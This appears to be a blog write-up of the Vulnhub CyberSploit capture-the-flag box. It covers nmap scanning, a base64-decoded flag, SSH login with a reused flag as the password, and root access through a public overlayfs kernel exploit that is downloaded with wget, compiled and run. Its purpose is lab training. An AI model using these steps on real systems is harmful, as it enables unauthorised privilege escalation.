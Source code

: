 ```yaml
---
title: Vulnhub - CyberSploit
description: My writeup on CyberSploit box.
categories:
 - vulnhub
tags: vulnhub base64 ssh binary kernel searchsploit
---
```


![](https://i2.wp.com/lifars.com/wp-content/uploads/2020/04/Top-10-most-dangerous-Cyber-Virus-scaled.jpg?fit=2560%2C1500&ssl=1)

Hi all, i really hate this type of boxes, but anyway let's pwn it!

You can find the machine there > [CyberSploit](https://www.vulnhub.com/entry/cybersploit-1,506/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.7
$ cybersploit nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 12:47 EEST
Nmap scan report for 192.168.1.7
Host is up (0.0013s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 00:0C:29:3A:64:E3 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If we check page source code we can see this comment: `<!-------------username:itsskv--------------------->` Probably a system user. Then i always check `/robots.txt` there, a base64 string exists let's decode it.

```
$ echo R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

## Shell as itsskv

After this i tried ton of stuff, brute force with custom wordlist with `cewl`, custom wordlist with `john`, brute force with `rockyou.txt` nothing. Then i had a crazy idea to try `cybersploit{youtube.com/c/cybersploit}` as password and it worked. LOL

```
$ ssh itsskv@$ip
itsskv@192.168.1.7's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Fri Jul 10 15:11:03 2020 from 0xatom.zte.com.cn
itsskv@cybersploit-CTF:~$ 
```

The second flag:

```
itsskv@cybersploit-CTF:~$ cat flag2.txt | perl -lape '$_=pack"(B8)*",@F'
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

## Exploiting old kernel version

Now privesc to root, is kernel exploit. Let's check kernel version:

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
itsskv@cybersploit-CTF:~$ uname -r
3.13.0-32-generic
```

Seems really old, let's search for possible exploits.

```
searchsploit 3.13.0
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                   | linux/local/37292.c
```

Seems good, let's mirror it and transfer it to target box.

```
$ searchsploit -m linux/local/37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/Documents/vulnhub/cybersploit/37292.c

$ cybersploit python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now let's wget it to target box and compile it.

```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ wget -q 192.168.1.16/37292.c
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o r00t; chmod +x r00t
itsskv@cybersploit-CTF:/tmp$ ./r00t
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

Let's read the final flag:

```
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

Big meme box.
